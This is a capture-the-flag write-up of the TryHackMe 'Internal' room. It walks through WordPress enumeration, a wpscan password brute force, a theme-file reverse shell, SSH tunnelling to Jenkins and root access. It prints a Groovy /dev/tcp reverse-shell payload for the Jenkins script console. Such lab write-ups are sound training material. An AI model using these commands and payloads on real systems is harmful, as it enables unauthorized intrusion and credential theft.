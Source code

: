 ```yaml
---
title: THM | Internal | 22-07-2023
updated: 2023-07-23 18:07:05Z
created: 2023-07-22 14:41:03Z
latitude: 25.57877260
longitude: 91.89325350
altitude: 0.0000
---
```


# THM | Internal 

**Scope of Work**

The client requests that an engineer conducts an external, web app, and internal assessment of the provided virtual environment. The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked that you secure two flags (no location provided) as proof of exploitation:

  - User.txt
  - Root.txt

  Tryhackme Room: [https://tryhackme.com/room/internal](https://tryhackme.com/room/internal)
 
# Scanning 
## Nmap Scan:
```bash
└─$ nmap -sC -sV -oN nmap.txt 10.10.223.143                       
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-22 10:40 EDT
Stats: 0:00:11 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 39.07% done; ETC: 10:40 (0:00:17 remaining)
Nmap scan report for 10.10.223.143
Host is up (0.19s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
|_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.18 seconds
```

### Open Ports:
- 22/tcp ssh
- 80/tcp http

## Port 80 (HTTP)
 We have added the ip to internal.thm in our `/etc/hosts` file. 
And It opens a default apache2 page.

![0e0c0ecb72d1cfa002b6d8d640cb6bc3.png](/Tryhackme/Internal/_resources/0e0c0ecb72d1cfa002b6d8d640cb6bc3.png)

  We will now start the gobuster for finding hidden directories. 
  
![765a3ce1526da8af125720b7f354b796.png](/Tryhackme/Internal/_resources/765a3ce1526da8af125720b7f354b796.png)

 We found `/blog` directory first, so we will open it. 
 
 ![b7b49634886987bd1324814610c79b14.png](/Tryhackme/Internal/_resources/b7b49634886987bd1324814610c79b14.png)
 
 Then, we checked in the source page and found its a wordpress site running version `5.4.2`
 
 ![482875c86db1560e16419fbab2a39205.png](/Tryhackme/Internal/_resources/482875c86db1560e16419fbab2a39205.png)
 
 Now we will check `/wp-admin` page, which is the login page for the wp sites.
 
 ![a9296e2550a71973ede6d1e29a9ca7e7.png](/Tryhackme/Internal/_resources/a9296e2550a71973ede6d1e29a9ca7e7.png)
 
 Next we tried to login with some default credential and found admin username exist.
 We can confirm that by checking the error message returned.
 
 Error message if we have valid username.
 ![c547f3148ad3b8f8135efc178067d3d4.png](/Tryhackme/Internal/_resources/c547f3148ad3b8f8135efc178067d3d4.png)
 
 Error message if user does not exit.
 
 ![2bd2775ac66656409d1a5f457cffa84d.png](/Tryhackme/Internal/_resources/2bd2775ac66656409d1a5f457cffa84d.png)
 
We can also find the username by running the following wpscan command:
```
wpscan --url internal.thm/blog/ -e u
```
 ![79cf1321620a105f12b8eb9047e30681.png](/Tryhackme/Internal/_resources/79cf1321620a105f12b8eb9047e30681.png)
 
 We checked for any vulnerable plugins by this following command, but we didn't found.
```
wpscan --url internal.thm/blog/ -e vp
```

Run wpscan for password cracking with the following command:
```
wpscan --url http://internal.thm/blog/ --passwords /usr/share/wordlists/rockyou.txt --usernames admin 
```

We have successfully cracked the password:

![bceb4a94df2bbd1a65aa1eea65e95d8e.png](/Tryhackme/Internal/_resources/bceb4a94df2bbd1a65aa1eea65e95d8e.png)

# Initial Access

Now, we have logged in to the wordpress dashboard with the password found above:

![c9dacac26baea8197c99475769ed045d.png](/Tryhackme/Internal/_resources/c9dacac26baea8197c99475769ed045d.png)

Now we will edit the php file of the theme to get reverse shell. In this case, we have edited footer.php

![64a66ddb9e97e23150c0eca9b5a8d3a4.png](/Tryhackme/Internal/_resources/64a66ddb9e97e23150c0eca9b5a8d3a4.png)

We have got the reverse shell.

![7fc213435bd70d2b2242a20838891a3b.png](/Tryhackme/Internal/_resources/7fc213435bd70d2b2242a20838891a3b.png)

We have found the sql database username and password under `/var/www/html`

![6affbc1c49ac74ce613c4ad8790a0487.png](/Tryhackme/Internal/_resources/6affbc1c49ac74ce613c4ad8790a0487.png)

Then, We have found password for the user `aubreanna` in the `/opt folder`

![252872bc580367992c8fd0f4148b3448.png](/Tryhackme/Internal/_resources/252872bc580367992c8fd0f4148b3448.png)

# User Privilege Escalation

We have successfully ssh to the user `aubreanna` with the found password and read the user flag.

![eaafd37d844aa0ffc1467f37ab3c9217.png](/Tryhackme/Internal/_resources/eaafd37d844aa0ffc1467f37ab3c9217.png)

We also found jenkins.txt and it says jenkins server running on `172.17.0.2:8080`

![d0a3e701f6d7a832823f3bafb3326078.png](/Tryhackme/Internal/_resources/d0a3e701f6d7a832823f3bafb3326078.png)

So, we will use ssh tunneling to access this server from local machine using the following command.
```
ssh -L 4444:172.17.0.2:8080 aubreanna@internal.thm
```
We accessed the jenkins login page:

![2b3b657d0b2990844c5e7fc4ef2f281b.png](/Tryhackme/Internal/_resources/2b3b657d0b2990844c5e7fc4ef2f281b.png)

As jenkins default credentials are not working we need to brute force the password.

We have intercepted the login request with burp suite and run the brute force attack and cracked the password for username `admin`

![97251bbe2087edb5d1e7948f0be25ee8.png](/Tryhackme/Internal/_resources/97251bbe2087edb5d1e7948f0be25ee8.png)

# Root Privilege Escalation
Then, we have logged in successfully.
![1c9de55afe9192b7ac856d0317dd3df2.png](/Tryhackme/Internal/_resources/1c9de55afe9192b7ac856d0317dd3df2.png)

Now we will look for uploading reverse shell in jenkins script console. 
Then, we have run the java reverse shell and got the jenkins shell.
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

![43eba5b456932a684bc29d5091bf0ead.png](/Tryhackme/Internal/_resources/43eba5b456932a684bc29d5091bf0ead.png)

![e7f9ef6ab4f77d91c5c9c9f0f09be799.png](/Tryhackme/Internal/_resources/e7f9ef6ab4f77d91c5c9c9f0f09be799.png)

In the `/opt` folder we found `note.txt`with root password.

![2e63c4462310ad8c4545286147dd2eee.png](/Tryhackme/Internal/_resources/2e63c4462310ad8c4545286147dd2eee.png)

So, we have `ssh` to the root user of `internal.thm` and got the root flag.

![d925e2718b75e3fd60b43db16ad785d6.png](/Tryhackme/Internal/_resources/d925e2718b75e3fd60b43db16ad785d6.png)

So, we have successfully rooted this machine. 

